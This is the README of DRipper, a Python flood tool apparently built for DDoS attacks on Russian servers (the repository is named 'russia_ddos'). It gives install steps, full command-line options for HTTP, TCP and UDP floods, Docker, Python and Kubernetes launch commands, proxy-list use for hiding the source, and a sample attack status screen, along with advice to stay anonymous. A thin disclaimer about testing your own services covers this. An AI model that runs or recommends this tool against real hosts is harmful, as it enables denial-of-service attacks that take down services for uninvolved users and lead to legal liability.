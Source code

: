 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## How it looks

```bash
                                                                                
              ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗               
              ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║               
              ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝               
              ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗               
              ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║               
              ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝               
                                                          v2.0.0                
                                                                                
        It is the end user's responsibility to obey all applicable laws.        
        It is just like a server testing script and Your IP is visible.         
                                                                                
                      Please, make sure you are ANONYMOUS!                      
                                                                                
 ────────────────────────────────────────────────────────────────────────────── 
  Description                       Status                                      
 ────────────────────────────────────────────────────────────────────────────── 
  Start Time                        2022-02-24 04:00:00                         
  Your Public IP / Country          131.*.*.* / AR                              
  Host IP / Country                 192.168.0.1:80 / RU                        
  Load Method                       UDP                                         
 ────────────────────────────────────────────────────────────────────────────── 
  Threads                           50                                          
  vCPU Count                        16                                          
  Random Packet Length              True / Max length: 2048                     
 ────────────────────────────────────────────────────────────────────────────── 
  CloudFlare DNS Protection         Not protected                               
  Last Availability Check           04:10:52                                    
  Host Availability                 Accessible in 21 of 21 zones (100%)         
 ────────────────────────────────────────────────────────────────────────────── 
  UDP Statistic                                                                 
 ────────────────────────────────────────────────────────────────────────────── 
  Duration                          0:12:11                                     
  Sent Packets                      10,332,191                                     
  Sent Bytes                        2.22 GB                                   
  Connection Success                2                                           
  Connection Failed                 29                                          
  Connection Success Rate           6%                                          
 ────────────────────────────────────────────────────────────────────────────── 
                        Press CTRL+C to interrupt process.                       
                                                                                
                               #StandWithUkraine                               
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: dripper [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT (default: 80)
                        Port number.
  -t THREADS, --threads=THREADS (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length .
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD (default: udp)
                        Attack method: udp, tcp, http.
  -s HOST, --server=HOST
                        Attack to server IP.
  -y FILENAME, --proxy_list=FILENAME
                        File (fs or http/https) with proxies in ip:port:username:password or ip:port line format.
                        Proxies will be ignored in udp attack!
                        Examples: proxylist.txt, https://proxies.com/fhjhajkdashdja
  -k PROXY_TYPE, --proxy_type=PROXY_TYPE (default socks5)
                        Type of proxy to work with. Supported types: socks5, socks4, http.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -a HTTP_PATH, --http_path=HTTP_PATH (default: /)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.

Example: dripper -s 192.168.0.1 -p 80 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m http

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m tcp -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s 127.0.0.1 -p 80 -t 100 -m upd -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 -m ripper.services -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md
